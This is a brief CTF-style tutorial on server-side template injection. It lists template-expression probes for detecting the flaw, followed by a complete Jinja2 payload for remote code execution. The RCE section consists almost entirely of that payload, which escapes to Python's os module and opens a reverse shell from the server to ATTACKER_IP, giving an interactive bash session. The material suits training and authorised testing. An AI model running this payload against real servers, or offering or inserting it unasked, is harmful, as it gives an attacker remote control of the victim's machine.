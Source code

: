 # Server-Side Template Injection (SSTI)
A simple tutorial of SSTI commonly used in Capture The Flag (CTF). It is a guide to detect SSTI and possibly obtain remote code exection (RCE) on the server.

# Detect if the server is vulnerable to SSTI:
To test for vulnerability, try these each of the payloads below. The expected result should be the multiplication of 7 and 7 which is equal to 49. If one of the payloads return the expected result (i.e. 49), then the server is vulnerable to SSTI.
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
# RCE
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
